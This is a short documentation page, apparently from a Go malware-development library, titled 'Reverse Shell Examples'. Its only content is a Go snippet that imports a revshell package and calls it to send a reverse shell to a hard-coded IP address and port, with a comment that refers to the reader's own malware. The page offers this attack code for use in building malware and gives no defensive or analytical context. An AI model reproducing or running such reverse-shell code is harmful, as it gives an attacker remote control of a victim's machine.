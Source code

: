 # Reverse Shell Examples

- Send reverse shell to given ip and port

```go
package main

import (
  "github.com/D3Ext/maldev/revshell"
)

func main(){
  // Not recommended to implement in your malware
  revshell.Reverse("192.168.1.37", "9001")
}
```
